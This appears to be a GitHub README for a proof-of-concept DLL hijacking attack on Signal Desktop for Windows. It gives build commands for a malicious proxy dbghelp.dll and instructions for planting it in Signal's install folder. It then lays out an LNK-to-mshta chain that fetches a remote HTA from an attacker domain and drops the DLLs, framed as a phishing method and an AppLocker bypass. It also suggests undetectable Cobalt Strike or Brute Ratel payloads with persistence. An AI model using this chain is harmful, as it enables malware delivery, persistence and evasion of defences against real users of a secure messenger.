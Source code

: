## EDIT:
2024/05/08 --> It's been brought to my attention that "cryptbase.dll" no longer works, so in short, Signal said this wasn't a vulnerability yet patched something that wasn't a vulnerability. I've updated this repo to use dbghelp.dll instead. Github's find and replace function is very useful. I've also added the gen_def.py script for your ease of use, huge shouts to Tothi for that.

# Summary 
Multiple instances of DLL planting exist, and a threat actor can plant DLLs that don't exist but are referenced by the application. 

# Steps to Replicate
1. First, create a malicious DLL. Signal references many non-existent DLLs, but several of the DLLs are native to Windows. For this example, I used `dbghelp.dll`. You can use [this repository](https://github.com/tothi/dll-hijack-by-proxying) to build the DLL, but I'll simplify their steps for you, by also including the definition generator in this repo, meaning you don't have to clone that repo if you don't want to:
   * Clone this repo.
   * Modify the `dbghelp.c` file in this repo as you see fit - note that this is nothing more than the payload.
   * Copy `C:\Windows\System32\dbghelp.dll` into the `dll-hijack-by-proxying` directory as `dbghelp_original.dll`.
   * Create the exports using the `gen_def.py` script

    ```
    python3 gen_def.py dbghelp_orig.dll > dbghelp.def
    ```
   
   * Run the following command if you're compiling for x64 Windows:

    ```
    x86_64-w64-mingw32-gcc -shared -o dbghelp.dll dbghelp.c dbghelp.def -s
    ```

2. Now you've got your malicious DLL. Copy `dbghelp.dll` and `dbghelp_orig.dll` into the `%LocalAppData\Programs\signal-desktop` folder.
3. Run Signal, and the code will execute. Here's a cute calculator PoC example:
   
    ![Calculator PoC](https://github.com/johnjhacking/Signal-DLL-Hijacking/blob/main/1.png?raw=true)

# Turning up the Heat
If you're like me, simply popping the calculator isn't enough. Let's chain this as an LNK -> HTA -> Your Payload. You might be wondering what the purpose of building this type of chain serves. Simple: you can chain this as a bypass against something like AppLocker or a default deny tool, leveraging the trust of the product as a safe messenger. In addition, an LNK pretext will allow you to get the user to download the DLLs into the appropriate folder.

1. Create an LNK shortcut, and change the target to the following:

    ```
    C:\Windows\System32\mshta.exe https://yourdomain/poc.hta
    ```

    It should look something like this:
   
    ![LNK PoC](https://github.com/johnjhacking/Signal-DLL-Hijacking/blob/main/2.png?raw=true)

2. Host your `dbghelp.dll` and `dbghelp_orig.dll` files.
3. Modify the code in the `poc.hta` file within this GitHub repo to utilize the URLs of your hosted DLL files.
4. Host `poc.hta` on your domain.
5. Run the LNK shortcut and watch as the DLL files are dropped into the `%LocalAppData\Programs\signal-desktop` folder.
6. Now, when the victim runs Signal, your malicious DLL will run. Phishing ftw.
7. You can use whatever you want, but for a quick test, I hosted an HTA server to see if my HTA would drop the DLLs that execute an HTA, mostly for the nonsense of the chain, so in my case, the chain was LNK -> HTA drops DLLs -> User runs Signal -> DLL executes remote HTA. In a live scenario, I'd swap the HTA payload out with a FUD DLL payload, built with compiled Cobalt Strike or Brute Rat shellcode with persistence, depending on the EDR i'm up against.
   
    ![RCE Proof](https://github.com/johnjhacking/Signal-DLL-Hijacking/blob/main/3.png?raw=true)
